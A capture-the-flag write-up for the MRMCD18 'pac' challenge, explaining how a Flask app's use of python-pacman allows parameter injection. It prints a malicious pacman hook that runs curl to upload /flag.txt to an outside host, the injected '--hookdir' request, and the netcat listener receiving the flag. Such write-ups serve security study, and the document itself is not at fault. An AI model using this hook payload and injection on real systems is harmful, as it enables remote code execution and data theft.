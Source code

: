 # spoiler: this is the solution

The problem was a parameter injection vulnerabilty in the python-pacman module [(before it got patched by #1)](https://github.com/peakwinter/python-pacman/pull/1)

That's the `install` function to install a package with pacman ([source](https://github.com/peakwinter/python-pacman/blob/1320f51058780d7654360831aa11a33c53989edc/pacman.py#L9)):  
```python
def install(packages, needed=True):
    # Install package(s)
    s = pacman("-S", packages, ["--needed" if needed else None])
    if s["code"] != 0:
        raise Exception("Failed to install: {0}".format(s["stderr"]))
```

The called `pacman` function looks like ([source](https://github.com/peakwinter/python-pacman/blob/1320f51058780d7654360831aa11a33c53989edc/pacman.py#L174)):
```python
def pacman(flags, pkgs=[], eflgs=[]):
    # Subprocess wrapper, get all data
    if not pkgs:
        cmd = ["pacman", "--noconfirm", flags]
    elif type(pkgs) == list:
        cmd = ["pacman", "--noconfirm", flags]
        cmd += pkgs
    else:
        cmd = ["pacman", "--noconfirm", flags, pkgs]
    if eflgs and any(eflgs):
        eflgs = [x for x in eflgs if x]
        cmd += eflgs
    p = subprocess.Popen(cmd, stderr=subprocess.PIPE, stdout=subprocess.PIPE)
    data = p.communicate()
    data = {"code": p.returncode, "stdout": data[0].decode(),
            "stderr": data[1].rstrip(b'\n').decode()}
    return data
```

Our application uses it the following way:

```python
@app.route("/install", methods=['GET', 'POST'])
@check_json('package')
def install():
    package = request.get_json(force=True)['package']
    pacman.install(package)
    return jsonify({'status': 'OK'})
```

As we use json we can send `package` as a list instead of a string. This will allow us to inject something in the `subprocess.Popen` call. It does not allow us to injection arbitrary commands. But it allow us to inject parameter. `pacman` allows us to run hooks after/before installing a package. This is how we will get code exection. Therefore, we need to upload a file to the server. Therefore we can exploit the `/check` api backend with a little trick.

```python
@app.route("/check", methods=['GET', 'POST'])
@check_json('name', 'content')
def checksum():
    f_name = request.get_json(force=True)['name']
    f_content = request.get_json(force=True)['content']
    with open(tmp_dir + f_name.replace("..", ""), "wb") as f:
        f.write(b64decode(f_content.encode()))
    stdout = check_output("/usr/bin/namcap -e checksums,filenames {}{}".format(tmp_dir, quote(f_name)), shell=True)
    remove(tmp_dir + f_name.replace("..", ""))
    return jsonify({'output': stdout.decode()})
```

1) Upload a file
    - call /check with the following parameters:
        - name: -d.hook
        - content:
        ```
[Trigger]
Operation = Upgrade
Operation = Install
Operation = Remove
Type = Package
Target = *

[Action]
Description = Cleaning pacman cache...
When = PostTransaction
Exec = /bin/bash -c "curl --upload-file /flag.txt http://192.168.10.70:5001"
        ```
    - What will happen is:
        - our pacman hook will be uploaded to '/tmp/pacman/-d.hook'
        - `/usr/bin/namcap -e checksums,filenames /tmp/pacman/-d.hook` will be executed and fails because it sees a `-d` (parses it as option)
        - the python call `check_output` will throw an exception an exception because `/usr/bin/namcap` exited with a non-zero value
    - the call to /check will give you a 500. But the file stays on the server

2) Install a package and get code execution using a pacman hook with our uploaded file
    - call the `install` endpoint with the following parameter `package`
        package: ["--hookdir", "/tmp/pacman/", "wget"]
    - this will install the package wget
    - `pacman` will use /tmp/pacman as hookdir (only files ending with .hook are used)
    - WIN.

## exploit.py
```bash
kmille@linbox mrmcd18-pac master % python exploit.py
Testing /info
info works
Testing /install
install works
Testing /remove
remove works
Testing /install
install works
Testing /check
check works
Uploaded hook
Testing /remove
remove works
```

```bash
kmille@linbox mrmcd18-pac master % nc -lvp 5001
Listening on license.sublimehq.com 5001
Connection received on 172.19.0.2 56558
PUT /flag.txt HTTP/1.1
Host: 192.168.10.70:5001
User-Agent: curl/7.69.1
Accept: */*
Content-Length: 20
Expect: 100-continue

MRMCD{4rch 15 b357}

```
